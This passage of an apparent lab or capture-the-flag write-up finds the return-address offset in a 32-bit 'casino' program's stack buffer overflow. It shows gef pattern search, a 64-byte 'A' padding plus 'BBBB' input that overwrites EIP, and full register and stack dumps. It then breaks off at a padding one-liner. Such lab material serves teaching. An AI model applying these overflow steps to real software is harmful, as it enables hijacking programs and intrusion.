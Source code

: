 	```
2. Look at the EIP value when the program existed with **SIGSEGV** and use it to search the offset of it in the payload.
	```bash
	gef➤  pattern search aaaq
	[+] Searching 'aaaq'
	[+] Found at offset 64 (little-endian search) likely
	[+] Found at offset 61 (big-endian search)
	```
3. Check which of the offsets is correct by generating multiple **A** followed by **BBBB** which should override the EIP
	```bash
	Please enter your bank account:
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB           
	Program received signal SIGSEGV, Segmentation fault.                                                                                                   
	0x42414141 in ?? ()                                                                                                                                      
	[ Legend: Modified register | Code | Heap | Stack | String ]                                                                       
	────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
	$eax   : 0xffffd0cf  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
	$ebx   : 0x0       
	$ecx   : 0x1f      
	$edx   : 0xffffd0cf  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
	$esp   : 0xffffd110  →  0x00424242 ("BBB"?)
	$ebp   : 0x41414141 ("AAAA"?)
	$esi   : 0xf7f9e000  →  0x001e4d6c
	$edi   : 0xf7f9e000  →  0x001e4d6c
	$eip   : 0x42414141 ("AAAB"?)
	$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
	$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
	────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
	0xffffd110│+0x0000: 0x00424242 ("BBB"?)  ← $esp
	0xffffd114│+0x0004: 0xffffd1e4  →  0xffffd38d  →  "/home/kayn/Documents/ISC/task3/casino"
	0xffffd118│+0x0008: 0xffffd1ec  →  0xffffd3b3  →  "SHELL=/bin/bash"
	0xffffd11c│+0x000c: 0x080488d1  →  <__libc_csu_init+33> lea eax, [ebx-0xf8]
	0xffffd120│+0x0010: 0xf7fe4080  →   push ebp
	0xffffd124│+0x0014: 0xffffd140  →  0x00000001
	0xffffd128│+0x0018: 0x00000000
	0xffffd12c│+0x001c: 0xf7dd7e46  →  <__libc_start_main+262> add esp, 0x10
	──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
	[!] Cannot disassemble from $PC
	[!] Cannot access memory at address 0x42414141
	──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
	[#0] Id 1, Name: "casino", stopped 0x42414141 in ?? (), reason: SIGSEGV
	────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
	─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
	gef➤
	─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
	┌─[kayn@parrot]─[~/Documents/ISC/task3]
	└──╼ $python2 -c "print 'A' * 64"